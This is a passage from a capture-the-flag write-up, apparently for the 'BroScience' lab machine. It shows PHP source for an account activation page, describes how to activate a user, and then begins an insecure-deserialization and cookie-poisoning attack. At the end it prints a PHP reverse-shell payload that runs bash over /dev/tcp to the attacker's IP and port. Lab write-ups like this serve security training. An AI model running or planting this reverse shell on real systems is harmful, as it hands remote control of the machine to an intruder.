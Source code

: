 ```php
            $alert = "Invalid activation code.";
        }
    } else {
        $alert = "Invalid activation code.";
    }
} else {
    $alert = "Missing activation code.";
}
?>

<html>
    <head>
        <title>BroScience : Activate account</title>
        <?php include_once 'includes/header.php'; ?>
    </head>
    <body>
        <?php include_once 'includes/navbar.php'; ?>
        <div class="uk-container uk-container-xsmall">
            <?php
            // Display any alerts
            if (isset($alert)) {
            ?>
                <div uk-alert class="uk-alert-<?php if(isset($alert_type)){echo $alert_type;}else{echo 'danger';} ?>">
                    <a class="uk-alert-close" uk-close></a>
                    <?=$alert?>
                </div>
            <?php
            }
            ?>
        </div>
    </body>
</html>
```
Run the `generate-activation-code.php` snippet again, and copy the output and use it on the `/activate.php` page as shown in broscience02. We can now log in with the created user details.

![Activate User Registration](/images/broscience/broscience02.png "Activate User Registration")

##### Exploitation
Earlier while reading the `utils.php` file we noticed a serialization and deserialization function and as explain by chat-gpt these could be an attack vector. See [Introduction to Insecure Deserialization in PHP - Conviso](https://blog.convisoappsec.com/en/introduction-to-insecure-deserialization-in-php/) for serialization-deserialization attack. The succeeding classes Avatar and Avatar interface aided in getting an initial foothold via a [cookie poisoning attack](https://www.invicti.com/learn/cookie-poisoning/). We will create a php reverse shell scripts and construct a serialized object with the following snippet.
[foothold.php](#foothold.php)
```php
// foothold.php reverse shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/9011 0>&1'"); ?>
```

